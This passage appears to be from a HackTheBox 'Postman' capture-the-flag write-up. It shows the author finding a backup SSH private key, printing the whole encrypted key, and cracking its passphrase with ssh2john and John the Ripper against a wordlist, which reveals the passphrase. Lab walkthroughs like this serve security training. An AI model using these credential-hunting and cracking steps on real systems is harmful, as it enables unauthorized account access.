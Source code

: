 ## searching for .bak files
```
redis@Postman:/$ find / -type f -iname "*.bak" 2>/dev/null
```

```
redis@Postman:/$ cat /opt/id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

Other users are Matt - so I assume this is his backup.  Will try to crack with John the ripper:
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

```
shotop@kali:~/Pentesting/HackTheBox/Boxes/postman$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:06 DONE (2020-01-20 20:50) 0.1468g/s 2105Kp/s 2105Kc/s 2105KC/sa6_123..*7¡Vamos!
Session completed
```
